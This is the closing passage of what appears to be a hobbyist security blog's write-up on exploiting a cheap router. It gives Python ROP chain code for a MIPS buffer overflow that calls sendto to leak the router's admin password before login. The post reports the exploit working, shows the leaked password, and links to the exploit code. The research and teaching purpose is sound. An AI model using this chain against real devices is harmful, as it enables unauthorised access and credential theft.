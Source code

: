 That last gadget is very ugly, but gadgets that move values into *$t0* are pretty limited so I had to take what I could get.

Now we can finally complete the arguments by putting 0x20 into *$t1*:

```python
# Move 0x20 into t1
# 0x001895cc: addiu $t1, $zero, 0x20; lw $ra, 0x2c($sp); lw $s2, 0x28($sp); lw $s1, 0x24($sp); lw $s0, 0x20($sp); jr $ra; addiu $sp, $sp, 0x30;
chain += b'b' * 0x20
chain += p32(0xdeadbeef) # s0
chain += p32(0xdeadbeef) # s1
chain += p32(0xdeadbeef) # s2
chain += p32(0x57864 + base_address) # ra
```

With all the arguments in place, we can finally call the function - you know the drill by now:

```python
# Load address of sendto into v0
# 0x00057864: lw $v0, ($sp); lw $ra, 0xc($sp); jr $ra; addiu $sp, $sp, 0x10;
chain += p32(sendto_addr) # v0 - sendto address
chain += b'b' * 8
chain += p32(0x15114 + base_address) # ra

# Call sendto and regain control
# 0x15114: jalr $v0; nop; lw $ra, 4($sp); move $v0, $zero; jr $ra; addiu $sp, $sp, 8; 
chain += b'b' * 4
chain += p32(0xdeadb33f) # ra
```

And thats the entire chain completed!

## Does it work?

Setting up Wireshark to view the traffic coming to and from the router, we can see the malicious SSDP payload being sent to the router, and the router responding with a UDP packet on port 4900 containig the admin password : *Aliexpress4Eva*!

![pwned.png]({{site.baseurl}}/assets/images/analysing_a_dirt_cheap_router_part_3/pwned.png)

# Conclusion

So, we managed to retrieve the admin password pre-auth through an overflow we exploited using ROP - pretty cool! I've learned a lot about MIPS through this exercise, and although it's not the most common platform to create your first buffer overflow exploit - we managed to get it working!

![im_in.png]({{site.baseurl}}/assets/images/analysing_a_dirt_cheap_router_part_3/im_in.png)

All the PoC's for crashes, as well as ROP exploits are all in the [github for this project](https://github.com/luke-r-m/Chaneve-Router-Analysis).

